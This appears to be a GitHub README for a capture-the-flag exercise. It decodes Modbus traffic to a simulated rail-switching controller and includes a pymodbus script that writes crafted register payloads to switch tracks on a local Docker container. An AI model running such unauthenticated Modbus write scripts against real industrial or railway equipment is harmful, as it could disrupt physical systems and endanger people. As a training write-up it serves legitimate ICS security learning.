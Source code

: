 # Exploraion 

## train 
<img src="./pictures/20240427_050341.jpg" width="500" height="600"\> 

## File
- `Dockerfile` and `insomniTrainSim` use for poc in local 
- `train_guide.txt` general infomation of rail switching
- `insomniTrains.pcap` example of interaction with insomniTrainSim

## Protocol
find in the `insomniTrains.pcap` the Protocol for the communicate to the `insomniTrainSim` is [Modbus](https://en.wikipedia.org/wiki/Modbus) 

### function use in example
- Read Holding Registers (3)
- Write Multiple Registers (16)

### Write Registers in example
I identified three paloads which are four writings of three registers `1001`, `1002`, `1003`
```python
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

# POC 

## run simulation
```sh 
$ docker buildx build --tag trains .
$ docker run -it trains:latest
Simulating InsomniTrains...

1. Understand insomniTains.pcap

2. Craft your payload and send

3. Read starting at 1016 to check your solution!

Have fun!

```
you must therefore read the register `1016` and the value must only be `TRY HARDER`, at first I didn't understand that these were two `char`

## solution for the simulation
I used the python module [pymodbus](https://pymodbus.readthedocs.io/en/latest/) 
```python
from pymodbus.client import ModbusTcpClient
import time


def sendPaload(paload):
    for value in paload:
        client.write_registers(1001, value, slave=0)
        time.sleep(0.1)

    result = client.read_holding_registers(
        1016, 1, slave=0
    )  # get information from device
    print(result.registers)  # use information
    print(result.bits)  # use information
    time.sleep(0.1)


client = ModbusTcpClient("172.17.0.2")  # Create client object
client.connect()  # connect to device, reconnect automatically

client.write_registers(1001, [17201, 21292, 12336], slave=0)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
print("paload1")
sendPaload(paload1)
print("paload2")
sendPaload(paload2)
print("paload3")
sendPaload(paload3)
print("paload3")
sendPaload(paload3)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
client.close()  # Disconnect device
```
after several executions of the script I saw that the value of register `1006` had changed from `21586` to `18255`

### Identify the correct payload

the good payload is 
```python
paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

### Check if the simulation is resolved 
run `read1016.py` after `5` seconds
